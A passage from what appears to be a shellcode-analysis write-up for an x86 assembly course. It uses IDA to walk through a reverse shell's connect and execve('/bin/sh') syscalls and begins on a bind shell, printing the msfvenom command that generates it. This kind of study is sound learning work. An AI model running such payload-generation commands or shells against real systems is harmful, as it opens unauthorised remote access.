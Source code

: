 The parameters of this syscall can be found below:
* socketcall(3, 0xffffd6a4)

As we can see this syscall is passed "3" as a first argument and a pointer to different values as the second parameter. Which means, based on the manual page of "socketcall", that this function is calling the "connect" function. Why ?
* "3" is the value which represents the "connect" function.
* "0xffffd6b4" is the pointer which hold all the variables used by "connect".

Here is the real function call behind "socketcall" and all of its parameters:
* connect(3, 0xffffd6b0, 0x66)
     * "3" is the socket file descriptor.
     * "0xffffd6b0" is pointer to a structure which holds:
          * The ip address: 127.0.0.1.
          * The port number: 4444.
          * The transport protocol used: TCP.
     * "0x66" is the structure size.

### 2.5) The fourth systemcall:
Based on the IDA results, the fourth systemcall is a "execve". This syscall is reponsible from spawning a shell. This function takes two parameters "/bin/sh%00" and two NULL bytes. 

![ida_reverse_shell_S4](https://github.com/RomainLanglois/SLAE_x86/blob/master/SLAE_assignments/assignment5/IDA_reverse_shell/IDA_reverse_shell_S4.png)

The parameters of this syscall can be found below:
* execve("/bin/sh%00", ["/bin/sh%00", NULL], NULL)

## 3) Third shellcode: a TCP bind shell
### 3.1) Reverse the the code using IDA
The last shellcode, I decided to analyse, is a tcp bind shell. This shellcode can be generated using msfvenom:
```console
kali@kali:/tmp$ msfvenom -p linux/x86/shell_bind_tcp -f elf -o bind_shell 
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 78 bytes
Final size of elf file: 162 bytes
Saved as: bind_shell
```

We will use IDA to understand how this shellcode works:
